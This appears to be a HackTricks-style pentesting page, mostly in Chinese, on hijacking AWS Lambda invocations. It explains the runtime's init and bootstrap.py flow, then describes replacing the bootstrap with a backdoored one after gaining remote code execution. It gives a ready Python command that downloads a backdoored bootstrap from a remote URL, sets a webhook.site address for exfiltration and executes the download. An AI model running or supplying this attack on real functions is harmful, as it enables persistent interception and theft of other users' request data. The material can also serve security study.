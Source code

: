 # AWS - Steal Lambda Requests

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Flow

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是一个在容器外部的进程，它 **发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
- **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用，并调用用户代码来处理它们 (**`/next`**).
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 将用户代码作为模块加载，因此用户代码执行的任何代码实际上都是在这个进程中发生的。

## Stealing Lambda Requests

此次攻击的目标是让用户代码在处理易受攻击请求的 **`bootstrap.py`** 进程内部执行一个恶意的 **`bootstrap.py`** 进程。这样，**恶意 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法** 的 bootstrap 被 **困住** 运行恶意进程，因此它不会向 init 进程请求请求。

这是一个简单的任务，因为用户的代码是由合法的 **`bootstrap.py`** 进程执行的。因此攻击者可以：

- **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程在等待更多调用。
- 必须向 **`/${invoke-id}/response`** 发送请求
- invoke-id 可以通过使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块从合法的 **`bootstrap.py`** 进程的堆栈中获取（如 [这里所提议](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)）或再次请求 **`/2018-06-01/runtime/invocation/next`**（如 [这里所提议](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)）。
- 执行一个恶意的 **`boostrap.py`**，它将处理下一个调用
- 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后像往常一样处理请求。
- 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前 lambda 调用中运行它即可。

### Attack Steps

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)）
3. **执行** 恶意 bootstrap。

您可以轻松地通过运行以下命令来执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
有关更多信息，请查看 [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## 参考文献

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
